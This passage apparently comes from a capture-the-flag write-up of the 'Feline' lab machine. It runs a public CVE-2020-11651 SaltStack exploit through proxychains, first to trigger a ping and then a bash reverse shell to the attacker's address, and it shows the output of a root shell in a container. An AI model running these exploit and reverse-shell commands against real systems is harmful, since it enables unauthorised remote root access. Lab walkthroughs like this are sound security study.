 Feline is vulnerable.

#### Ping

Next I tried to get it to ping me by running:



    root@kali:/opt/CVE-2020-11651-poc# proxychains python3 exploit.py --exec 'ping -c 1 10.10.14.15'
    ProxyChains-3.1 (http://proxychains.sf.net)
    [!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
    [+] Checking salt-master (127.0.0.1:4506) status... ONLINE
    [+] Checking if vulnerable to CVE-2020-11651... YES
    [*] root key obtained: HWxqacQWZGow8QrRBTcMKALAYRqsdT2t30kwsV8MBIYk03o/4UV8puHk788hKPT4mPdRg55WyEI=
    [+] Attempting to execute ping -c 1 10.10.14.15 on 127.0.0.1
    [+] Successfully scheduled job: 20200901193401749722



At `tcpdump`, I got the ping:



    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    15:32:16.127560 IP 10.10.10.205 > 10.10.14.15: ICMP echo request, id 9630, seq 1, length 64
    15:32:16.127615 IP 10.10.14.15 > 10.10.10.205: ICMP echo reply, id 9630, seq 1, length 6



#### Shell

I'll just change the command to a reverse shell:



    root@kali:/opt/CVE-2020-11651-poc# proxychains python3 exploit.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1"'
    ProxyChains-3.1 (http://proxychains.sf.net)
    [!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
    [+] Checking salt-master (127.0.0.1:4506) status... ONLINE
    [+] Checking if vulnerable to CVE-2020-11651... YES
    [*] root key obtained: HWxqacQWZGow8QrRBTcMKALAYRqsdT2t30kwsV8MBIYk03o/4UV8puHk788hKPT4mPdRg55WyEI=
    [+] Attempting to execute bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1" on 127.0.0.1
    [+] Successfully scheduled job: 20200901193454581517



At `nc`, I get a shell as root in a container:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.205.
    Ncat: Connection from 10.10.10.205:39680.
    bash: cannot set terminal process group (9655): Inappropriate ioctl for device
    bash: no job control in this shell
    root@2d24bf61767c:~# id
    uid=0(root) gid=0(root) groups=0(root)
